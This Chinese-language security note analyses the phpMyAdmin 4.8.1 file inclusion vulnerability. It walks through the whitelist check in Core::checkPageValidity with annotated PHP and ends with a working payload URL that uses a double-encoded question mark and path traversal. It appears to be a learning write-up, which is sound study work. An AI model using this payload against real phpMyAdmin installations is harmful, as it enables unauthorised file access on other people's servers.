


# phpmyadmin 文件包含漏洞

### 范围

**4.8.1** 及 **4.8.1** **以前**


### 解析

##### 触发位置 : `index.php`



##### 触发原理 :

- 当 `if` 中的条件均满足时候，就触发了。

- 如何满足 `if` 中的条件：

  1. 提交时存在 `target` 参数，经过测试，需要用 `GET` 方法提交。

  2. `$_REQUEST['target']` 为字符串。

  3. 头部不含有 `index` 。

  4. 没有在 `$target_blacklist` 数组中。

  5. **检测函数： `Core::checkPageValidity`**

     - `Core::checkPageValidity` 

       白名单图
       

     ```php
     // 假设 target为：target=db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
     //判断是否在白名单中，如果在，则返回true。白名单如图
     if (in_array($page, $whitelist)) {
                 return true;
             }
     // 通过？截断一次
     // target=db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
      $_page = mb_substr(
                 $page,
                 0,
                 mb_strpos($page . '?', '?')
             );      
     // 判断截断后是否在白名单
     // 关于为何不能在这里触发，因为如果在这里触发，那么包含的文件路径就是：
     // db_sql.php？/../../../../../../../../../home/code/language....
     // 而 系统中不允许出现含有？的路径
     if (in_array($_page, $whitelist)) {
                 return true;
             }
     // 解码一次
     //target=db_sql.php%3f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
     // 即 target=db_sql.php?/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
      $_page = urldecode($page);
     // 再截断
      $_page = mb_substr(
                 $_page,
                 0,
                 mb_strpos($_page . '?', '?')
             );
     // target= db_sql.php
     //  再次判断是否在白名单，如果在的话返回 true
     if (in_array($_page, $whitelist)) {
                 return true;
             }
     ```

- payload

  ```javascript
  http://127.0.0.1/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html
  ```


### 遇到的问题

- windows下文件包含漏洞的路径问题：

  - 如果代码与所要包含的路径在同一磁盘内，则：

    db_sql.php%253f/../../../../../../../../../home/code/language/php/xampp/xampp/htdocs/test.html

  - 如果不在同一个磁盘……

    尚未解决
